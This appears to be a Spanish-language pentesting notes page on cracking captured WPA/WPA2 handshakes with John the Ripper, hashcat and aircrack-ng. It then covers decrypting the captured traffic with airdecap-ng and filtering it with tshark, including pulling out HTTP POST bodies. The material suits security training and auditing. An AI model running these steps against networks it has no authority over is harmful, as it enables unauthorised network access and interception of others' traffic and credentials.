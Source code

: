 # HandShake Cracking

El **crackeo del handshake** en redes Wi-Fi WPA/WPA2 implica *capturar* el *4-way handshake* entre un cliente y un punto de acceso, y luego intentar descifrar la *PSK* mediante un ataque de diccionario o fuerza bruta. Este proceso nos permite obtener la contraseña de la red y, por lo tanto, acceso a la misma.

----
# Cracking the handshake

###### Manual Mode (*Johntheripper*)

Una vez que tengamos el archivo de captura .cap, tendriamos que convertir dicho archivo .cap a .hccap, ya que este archivo es compatible con la herramienta de fuerza bruta `johntheripper`.

```shell 
aircrack-ng -J {name_file.hccap} {file.cap}
```

De esta manera tendriamos un nuevo archivo .hccap el cual haciendo uso de la herramienta `hccap2john` podremos extraer únicamente el hash.

```shell
hccap2john {name_file.hccap} > {file_to_john}
```

Ahora, solo quedaria hacer uso de `john` para realizar un ataque de fuerza bruta al archivo creado. 

```shell
john --wordlist=/path/to/wordlist.txt {file_to_john}
```
###### Manual Mode (*Hashcat*)

Una vez que tengamos el archivo .cap, tendriamos que convertir dicho archivo .cap a .hccapx, formato que la herramienta de fuerza bruta `hashcat` puede interpretar. Para eso haremos uso de la herramienta `hcxpcapngtool`.

```bash
hcxpcapngtool -o hash.hccapx {capture}.cap
```

Ahora solo queda hacer uso de la herramienta `hashcat` para relizar un ataque de fuerza bruta al archivo creado.

```bash
hashcat -m 2500 hash.hccapx /path/to/wordlist.txt
```

###### Automatic Mode (*Aircrack-ng*)

Una vez que tengamos el archivo de captura .cap, podriamos realizar un ataque de fuerza bruta a la contraseña encriptada del AP que se encuentra en todo el archivo .cap. 

```shell
aircrack-ng -w /path/to/wordlist.txt {file.cap} 
```

----
# Spying 

Una vez conseguida la contraseña de la red, podriamos conectarnos a la misma para proceder con intentar llevar a cabo el proceso tradicional de cualquier auditoria a los dispositivos de la red, o bien podriamos comenzar a capturar el trafico de la red, desencriptandolo para asi poder ver todo el trafico entero, es decir, páginas visitadas, metodos http, direcciones IP, etc. 
###### Decrypt traffic

```shell 
airdecap-ng -p {password} -e {essid} {file.cap}
```

Tras la ejecución de este comando, en caso de haber introducido correctamente la credencial, todo el tráfico previamente o posteriormente capturado podrá ser desencriptado, pudiendo asi con herramientas como `tshark` o `wireshark`, filtrar por diversas peticiones, por ejemplo, solicitudes POST, GET, etc.

```shell
tshark -r {file-dec.cap} -Y "http.request.method==POST" -Tjson 
tshark -r {file-dec.cap} -Y "http.request.method==POST" -Tfields -e http.file_data 
```

Filtros más específicos como paquetes con una IP de origen o destino específica.

```bash
tshark -r {file-dec.cap} -Y "ip.src == 192.168.1.1 || ip.dst == 192.168.1.1"   
```

Filtrar por puertos.

```bash
tshark -r {file-dec.cap} -Y "tcp.port == 80"
```

Mostrar campos específicos.

```bash
tshark -r {file-dec.cap} -Y -T fields -e ip.src -e ip.dst
```

Filtrar paquetes ARP, ICMP

```bash
tshark -r {file-dec.cap} -Y "arp"
tshark -r {file-dec.cap} -Y "icmp"
```

Filtrar paquetes por porotoclos de aplicación

```bash
tshark -r {file-dec.cap} -Y "dns"
tshark -r {file-dec.cap} -Y "http" 
tshark -r {file-dec.cap} -Y "tcp" 
```

